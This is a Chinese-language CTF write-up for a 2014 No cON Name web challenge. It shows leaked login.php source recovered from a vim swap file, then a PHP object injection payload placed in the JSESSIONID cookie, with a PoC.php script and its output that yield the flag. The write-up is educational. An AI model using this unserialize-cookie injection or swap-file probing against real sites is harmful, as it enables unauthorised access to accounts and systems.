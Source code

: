 # No cON Name CTF Quals 2014: MakeMeFeeWet^Hb

**Category:** Web
**Points:** 300
**Description:**

> Access == Flag
>
> Url: https://ctf.noconname.org/makemefeelweb/

## Write-up

頁面進入只有帳號密碼登入頁面，初步判斷沒有 SQL Injection。

檢視原始碼發現註解：

```
<!-- vim: set ts=2 sw=2: -->
```

初步判斷可能有 vim 備份文件。

經猜測後找到 [.login.php.swp](https://github.com/hsttw/write-ups/blob/master/no-con-name-ctf-quals-2014/MakeMeFeeWet%5EHb/login.php.swp)，可以看到片段的內容：

```
    @$data = unserialize(hex2bin(implode(explode("\\x", base64_decode($cookie)))));
if (isset($_COOKIE['JSESSIONID'])) {
    if ($username == "p00p" && $password == "l!k34b4u5") {
        $this->p = $_passwd;
        $this->u = $_uname;
    public function __construct($_uname, $_passwd) {
    public $p;
    public $u;
class Creds {
```

看到 `unserialize` 直覺是 Object Injection，設定 cookie `JSESSIONID` 後 `GET login.php` 得到

```
Getting close :)
```

判斷應該是透過 `JSESSIONID` 做 Object Injection。

根據片段的內容拼湊了一下 Object：

```
O:5:"Creds":2:{s:1:"u";s:4:"p00p";s:1:"p";s:9:"l!k34b4u5";}
```

接著對這段做 `bin2hex` 再 `base64_encode`，將得到的值設定 cookie `JESSIONID`，重新 `GET login.php` 即可得到 flag。

```
NcN_778064be6556e64577517875a8710b0abeba1578
```

ps. 也可以用以下的 POC.php 產生 object injection 所需的東西
```
<?php
class Creds
{
   public $u = "p00p";
   public $p = "l!k34b4u5";
}

print "Original object injection: ".serialize(new Creds)."\n";
print "JSESSIONID=".urlencode(base64_encode(bin2hex(serialize(new Creds))))."\n";
?>
```
php POC.php
```
Original object injection: O:5:"Creds":2:{s:1:"u";s:4:"p00p";s:1:"p";s:9:"l!k34b4u5";}
JSESSIONID=NGYzYTM1M2EyMjQzNzI2NTY0NzMyMjNhMzIzYTdiNzMzYTMxM2EyMjc1MjIzYjczM2EzNDNhMjI3MDMwMzA3MDIyM2I3MzNhMzEzYTIyNzAyMjNiNzMzYTM5M2EyMjZjMjE2YjMzMzQ2MjM0NzUzNTIyM2I3ZA%3D%3D
```

